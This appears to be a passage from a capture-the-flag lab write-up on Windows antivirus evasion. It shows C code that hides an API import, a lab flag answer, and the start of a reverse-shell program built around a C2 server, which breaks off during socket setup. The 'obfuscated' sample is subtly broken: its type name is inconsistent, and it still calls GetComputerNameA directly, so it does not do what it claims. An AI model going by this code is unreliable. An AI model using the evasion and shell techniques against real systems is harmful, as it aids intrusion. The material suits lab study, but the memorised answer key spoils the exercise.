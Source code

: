 ## Behavioral Signatures

* Given C program:

```c
#include <windows.h>
#include <stdio.h>
#include <lm.h>

int main() {
    printf("GetComputerNameA: 0x%p\\n", GetComputerNameA);
    CHAR hostName[260];
    DWORD hostNameLength = 260;
    if (GetComputerNameA(hostName, &hostNameLength)) {
        printf("hostname: %s\\n", hostName);
    }
}
```

* Obfuscated C program:

```c
#include <stdio.h>
#include <lm.h>

typedef BOOL (WINAPI* myNotgetComputerNameA)(
    LPSTR   lpBuffer,
    LPDWORD nSize
);

int main() {
    HMODULE hkernel32 = LoadLibraryA("kernel32.dll");
    myNotGetComputerNameA notGetComputerNameA = (myNotGetComputerNameA) GetProcAddress(hkernel32, "GetComputerNameA");
    printf("GetComputerNameA: 0x%p\\n", GetComputerNameA);
    CHAR hostName[260];
    DWORD hostNameLength = 260;
    if (GetComputerNameA(hostName, &hostNameLength)) {
        printf("hostname: %s\\n", hostName);
    }
}
```

```markdown
1. What flag is found after uploading a properly obfuscated snippet? - THM{N0_1MP0r75_F0r_Y0U}
```

## Putting It All Together

* Given program:

```c
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024

void RunShell(char* C2Server, int C2Port) {
        SOCKET mySocket;
        struct sockaddr_in addr;
        WSADATA version;
        WSAStartup(MAKEWORD(2,2), &version);
        mySocket = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        addr.sin_family = AF_INET;
```